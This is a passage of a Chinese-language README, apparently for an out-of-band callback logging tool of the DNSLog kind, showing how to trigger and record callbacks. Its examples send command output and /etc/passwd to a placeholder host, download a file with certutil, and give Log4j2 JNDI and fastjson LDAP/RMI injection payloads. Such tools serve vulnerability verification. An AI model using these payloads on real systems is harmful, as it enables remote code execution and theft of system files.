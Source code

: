 ### 如何使用

上文提到，假定我的域名和ip是`example.com`和`1.1.1.1`，并且我们账户的logid为`qrq`

#### DNS

```sh
nsloopup `whoami`.qrq.example.com
ping `whoami`.qrq.example.com
```

#### HTTP

```sh
curl 1.1.1.1/qrq/some/info
curl -d @/etc/passwd 1.1.1.1/qrq/postdata
certutil -urlcache -split -f http://1.1.1.1/x x
```

#### LDAP

log4j2 fastjson等可以使用此方法

注意这里必须要令最后路径的最后作为logid，如：`ldapqrq` `xxxxqrq` `qrq` `xxx/qrq`

```
${jndi:ldap://1.1.1.1:1389/ldapqrq}
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://1.1.1.1:1389/ldapqrq", "autoCommit":true}
```

#### RMI

同上，log4j2 fastjson等

```
${jndi:rmi://1.1.1.1:1099/rmiqrq}
{ "b":{ "@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"rmi://1.1.1.1:1099/rmiqrq", "autoCommit":true } }
```

## 👀 概览

### 登录
